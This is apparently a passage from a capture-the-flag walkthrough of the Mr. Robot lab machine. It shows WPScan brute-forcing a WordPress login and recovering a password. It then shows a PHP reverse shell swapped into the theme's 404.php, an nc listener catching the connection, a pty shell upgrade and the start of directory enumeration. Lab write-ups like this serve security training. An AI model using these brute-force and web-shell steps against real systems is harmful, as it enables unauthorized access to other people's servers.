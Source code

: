     [+] Enumerating plugins from passive detection ...  
    [+] No plugins found  
    [+] Starting the password brute forcer  
      [+] [SUCCESS] Login : elliot Password : ER28-0652                                                                                                                                                                  
      
      Brute Forcing 'elliot' Time: 00:01:07 <================================================================                                                                    > (5627 / 11452) 49.13%  ETA: 00:01:10  
      +----+--------+------+-----------+  
      | Id | Login  | Name | Password  |  
      +----+--------+------+-----------+  
      |    | elliot |      | **ER28-0652** |  
      +----+--------+------+-----------+  
      
    [+] Finished: Fri Jan 20 16:43:55 2017  
    [+] Requests Done: 5679  
    [+] Memory used: 18.219 MB  
    [+] Elapsed time: 00:01:08  
    

  
We found the password! It's **ER28-0652. **  
  

## 3\. Getting a shell

**elliot **has administrative access on WP, which means we can easily change 404.php file with a [reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Go to **Appearance **-&gt; **Editor **and swap the **404.php** code with your modified revsh. Make sure you change the IP and PORT in the php file. Then start a listener and hit a random page like _http://192.168.1.72/kosomak_.  
  
  

    
    
    root@kali:~/Desktop# nc -nvlp 4444  
    listening on [any] 4444 ...  
    connect to [192.168.1.73] from (UNKNOWN) [192.168.1.72] 41611  
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux  
     22:01:33 up  1:45,  0 users,  load average: 0.00, 0.04, 0.21  
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  
    uid=1(daemon) gid=1(daemon) groups=1(daemon)  
    /bin/sh: 0: can't access tty; job control turned off  
    $ python -c 'import pty; pty.spawn("/bin/bash")'  
    daemon@linux:/$   
    

  
After little enumeration I found the following:  
  
  

    
    
    daemon@linux:/$ cd /home  
    cd /home  
    daemon@linux:/home$ ls -al  
    ls -al  
    total 12  
    drwxr-xr-x  3 root root 4096 Nov 13  2015 .  
    drwxr-xr-x 22 root root 4096 Sep 16  2015 ..  
    drwxr-xr-x  2 root root 4096 Nov 13  2015 robot  
    daemon@linux:/home$ cd robot  
    cd robot  
    daemon@linux:/home/robot$ ls -al  
    ls -al  
    total 16  
    drwxr-xr-x 2 root  root  4096 Nov 13  2015 .  